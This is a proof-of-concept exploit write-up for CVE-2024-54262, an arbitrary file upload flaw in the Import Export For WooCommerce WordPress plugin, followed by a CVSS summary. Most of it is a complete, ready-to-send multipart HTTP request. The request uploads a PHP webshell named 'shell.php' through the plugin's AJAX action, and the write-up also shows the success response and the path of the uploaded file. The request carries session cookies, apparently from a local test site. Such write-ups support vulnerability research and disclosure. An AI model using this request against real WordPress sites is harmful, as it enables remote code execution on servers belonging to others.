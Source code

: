 # CVE-2024-54262
Import Export For WooCommerce <= 1.5 - Authenticated (Subscriber+) Arbitrary File Upload

# Description

The Import Export For WooCommerce plugin for WordPress is vulnerable to arbitrary file uploads due to missing file type validation in all versions up to, and including, 1.5. This makes it possible for authenticated attackers, with Subscriber-level access and above, to upload arbitrary files on the affected site's server which may make remote code execution possible.

## Details

- **Type**: plugin
- **Slug**: import-export-for-woocommerce
- **Affected Version**: 1.5
- **CVSS Score**: 9.9
- **CVSS Rating**: Critical
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H
- **CVE**: CVE-2024-54262
- **Status**: Active

POC
---

Change your cookies to yours.

```
POST /wp-admin/admin-ajax.php HTTP/2
Host: wp-dev.ddev.site
Cookie: wordpress_sec_738b26438442006baf5dc1367e0c0fd7=superadmin%7C1734790221%7CenzNuyQN6cnP5g8Bmw6ZVil29WJCzcIc1bx3Z10l32r%7C31038bfa66d0777c50fba66263f613d288a20d1e14dfc0fc06903f77d1c9e41f; popup_time=2; alwaysStrip=1; _ga=GA1.2.1953252658.1732269795; _ga_16PD6PV48S=GS1.2.1732269795.1.0.1732270283.0.0.0; wp-settings-time-1=1734520301; wp-settings-1=libraryContent%3Dbrowse; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_738b26438442006baf5dc1367e0c0fd7=superadmin%7C1734790221%7CenzNuyQN6cnP5g8Bmw6ZVil29WJCzcIc1bx3Z10l32r%7C987ff9134b881efe3cced2fa12593fd0ba5b2b02613fb93f48433b112015551a; PHPSESSID=49f0a4bfb294cad31ed4a83ede9bf485; tk_ai=zv7IX5yQT%2F6RzXuKQwqmMvEV; tk_qs=
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://wp-dev.ddev.site/wp-admin/admin.php?page=sn-wie-products&tab=import
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------22553230142285543514464898073
Content-Length: 1149
Origin: https://wp-dev.ddev.site
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

-----------------------------22553230142285543514464898073
Content-Disposition: form-data; name="action"

sn_wie_upload_product_csv_file
-----------------------------22553230142285543514464898073
Content-Disposition: form-data; name="upload_type"

file_upload
-----------------------------22553230142285543514464898073
Content-Disposition: form-data; name="upload_file"; filename="shell.php"
Content-Type: text/php

<?php shell_exec(id); ?>

-----------------------------22553230142285543514464898073
Content-Disposition: form-data; name="upload_url"


-----------------------------22553230142285543514464898073
Content-Disposition: form-data; name="import_columns"

all
-----------------------------22553230142285543514464898073
Content-Disposition: form-data; name="product_operation"

create_new_update_existing
-----------------------------22553230142285543514464898073
Content-Disposition: form-data; name="product_search_type"

SKU
-----------------------------22553230142285543514464898073
Content-Disposition: form-data; name="field_separator"


-----------------------------22553230142285543514464898073--
```

```
{"status":true,"code":104,"message":"Success","data":{"file_name":"import_manual_1734619267.php","total_requests":0,"import_columns":"all","product_search_type":"SKU","product_operation":"create_new_update_existing","field_separator":","}}
```

`wp-content/uploads/import-export-for-woocommerce/product/import_manual_1734619267.php`
